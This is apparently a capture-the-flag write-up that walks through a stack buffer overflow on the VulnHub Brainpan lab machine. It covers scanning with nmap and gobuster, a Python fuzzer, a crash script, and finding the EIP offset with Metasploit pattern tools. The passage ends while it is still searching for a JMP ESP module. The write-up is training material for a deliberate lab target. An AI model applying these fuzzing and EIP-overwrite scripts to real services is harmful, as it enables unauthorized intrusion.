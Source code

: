 # BrainPan BufferOverflow VulnHub Machine 
Hello! I am [Mohamed](https://twitter.com/0xMohomiester) This is My WriteUp for Brainpan BufferOverflow VulnHub Machine ok Let's start with download machine from [VulnHub Brainpan](https://www.vulnhub.com/entry/brainpan-1,51/) and setup it on vmware or virtual box as you like I already finished the setup you shoud see :

![brainp](https://user-images.githubusercontent.com/47929033/130876624-1b4dc000-bcb9-467c-87db-30b5ec3af179.png)

That's great Let's start with enumeration I need to know ip address of machine so i will use command 
`sudo netdiscover` to find ip address: 

![Screen Shot 2021-08-26 at 12 44 34 AM](https://user-images.githubusercontent.com/47929033/130876911-b5242212-661d-4646-989c-c8772a9b85d2.png)

as you can see the ip address: `192.168.1.13` with `vmware,inc` hostname now we need to perform port scanning I will use nmap to scan for open port and service on machinewith command:

`sudo nmap 192.168.1.13` : 

![Screen Shot 2021-08-26 at 12 48 27 AM](https://user-images.githubusercontent.com/47929033/130877152-5af6c1f5-28b4-4bc2-bc16-dc239560a2c5.png) 

as you can see two ports are open `9999,10000` let's check port `9999` with netcat using command 
`nc -nvv 192.168.1.13 9999`:

![Screen Shot 2021-08-26 at 12 49 00 AM](https://user-images.githubusercontent.com/47929033/130877337-dbaddc9d-fb3c-4a03-add2-ed49cbea2e7e.png)

as you can see this is the vulnerable service: `Brainpan`,maybe port `10000` is web server let's check it with open it in web browser: 

![Screen Shot 2021-08-26 at 12 49 20 AM](https://user-images.githubusercontent.com/47929033/130877350-d1d98332-3831-4c9b-a820-031966af52d9.png) 

That's Great, It's web server that run on port `10000` now we need to discover some interesting directories that hidden in webiste by using Gobuster using command: 
`gobuster dir  --url http://192.168.1.13:10000/  -w /home/kali/Desktop/directory-list-2.3-medium.txt`

![Screen Shot 2021-08-26 at 12 40 56 AM](https://user-images.githubusercontent.com/47929033/130877722-9c037be4-a6f8-4f5d-8e69-5cd6e10d891e.png)

as you can see i found directory `/bin` let me see in browser: 

![Screen Shot 2021-08-26 at 12 40 35 AM](https://user-images.githubusercontent.com/47929033/130877992-ccdee6c7-91a5-4197-8106-e54b5839a92c.png)

oh! it's e executable file now we need to switch to windows machine on vmware to run programe
i will tranfer the programe to windows machine and run it: 

![Screen Shot 2021-08-26 at 1 43 00 AM](https://user-images.githubusercontent.com/47929033/130878391-e18acbce-e348-4f65-b4a3-cbdb54794f49.png)

as you can see the programe listen on port 9999 and waitin for connection, we need [Immunity Debugger](https://debugger.immunityinc.com/) to open application and see how it works During exploition phase
I already download it , I will open and run it as administrator to attach service: 

![Screen Shot 2021-08-26 at 1 49 10 AM](https://user-images.githubusercontent.com/47929033/130878958-189b07db-6e2d-41bd-a594-fe77294799a0.png) 

as you can see service name: `Brainpan` with PID `2108` after attack it run programe from `F9` in your keyboard and make sure that the programe is running in the right down side: 

![Screen Shot 2021-08-26 at 1 49 38 AM](https://user-images.githubusercontent.com/47929033/130879173-18bcdd76-6286-44f6-836a-95ea16152d9a.png)

as you can see programe runing we need now to Discover bufferoverflow vulnerability using fuzzing in my Kali Linux attacking machine I written simple fuzzer using python: 

```
#!/usr/bin/python

import socket 

counter = 100

ip = "192.168.1.15"

port = 9999

while (counter<=5012):
      
     print("payload sent")

     s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    
     payload = 'A' * counter
   
     s.connect((ip, port))

     s.send(payload + "\r\n")
     
     s.recv(1024)
     
     s.close()
     
     counter+=100
    
     print(payload + "\n")

print(len(payload))
```

That's Great Let's run our fuzzer to Discover crash on application: 

![Screen Shot 2021-08-26 at 2 06 17 AM](https://user-images.githubusercontent.com/47929033/130880235-d06b1266-0fa1-40c3-8cfa-4f5e77a413b9.png) 

as you can see fuzzer stoped with string of `AAA` how to know number of `A` ? it's very simple let me to create a file with `touch aa.txt` and copy string to file and use command: `cat aa.txt | wc -c`:

![Screen Shot 2021-08-26 at 2 07 45 AM](https://user-images.githubusercontent.com/47929033/130880433-95cb1c84-9dcc-4192-b79b-173a7490b81c.png)

as you can see tha programe crased and EIP register: `41414141`

![Screen Shot 2021-08-26 at 2 06 32 AM](https://user-images.githubusercontent.com/47929033/130881445-09e4193f-8c01-4a6e-8116-6cbcea6d23fc.png)

The string that crased applicaton: `600` of `A`, That's Great now we can write a exploit to know which four bytes that OverWrtie `EIP`: 

### Hint : CTR+F2 to restart debugger and service  and F9 to run debugger and service 

exploit:

```
#!/usr/bin/python 
import socket 

buffer = 'A' * 600 

print 'payload sent'

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 

s.connect(('192.168.1.15',9999))

s.send(buffer + "\r\n")

s.recv(1024)

s.close()

```
I will run exploit to see the programe crash or not : 

![Screen Shot 2021-08-26 at 2 26 21 AM](https://user-images.githubusercontent.com/47929033/130881239-d8dcb070-d15a-480c-adfb-fd28dacba624.png)

as you can see the programe crashed Now, let's create a unique string with `msf-pattern-create`, using command: `msf-pattern_create -l 600` and copy the unique string to exploit :

![Screen Shot 2021-08-26 at 2 35 02 AM](https://user-images.githubusercontent.com/47929033/130881775-6f0d9492-07ad-4060-b0af-083e2ef4c33b.png)

as you can see the programe crashed at EIP: `35724134` we can now use `msf-pattern-offset`
to know which four bytes that OverWrite `EIP` by using command `msf-pattern_offset -q 35724134`:

```
[*] Exact match at offset 524
```
Now we need to OverWrite EIP with `BBBB` i will send `524 * A` + `BBBB` + `72 * C` 
then Total Length: 600 then exploit should be: 

![Screen Shot 2021-08-26 at 2 50 19 AM](https://user-images.githubusercontent.com/47929033/130882763-af86b608-bbc4-4d07-9a6d-8f33c9a74b48.png)

let's run exploit to see the crash:

![Screen Shot 2021-08-26 at 12 59 09 PM](https://user-images.githubusercontent.com/47929033/130951288-663f42f7-c034-4222-9885-2b42cf3f1524.png)

as you can see we can control EIP register with `BBBB` that's Great no we need to find `JMP ESP` register to execute our shellcode in the application to get shell we can use [mona.py](https://github.com/corelan/mona) to do this operation, first I will use command: `!mona modules` to find mosules  that don't have ASLR and DES: 

![Screen Shot 2021-08-26 at 1 06 26 PM](https://user-images.githubusercontent.com/47929033/130952539-25118c43-c5f0-4010-99d0-fd3a529296aa.png)

as you can see this is module we will use module with have all false 
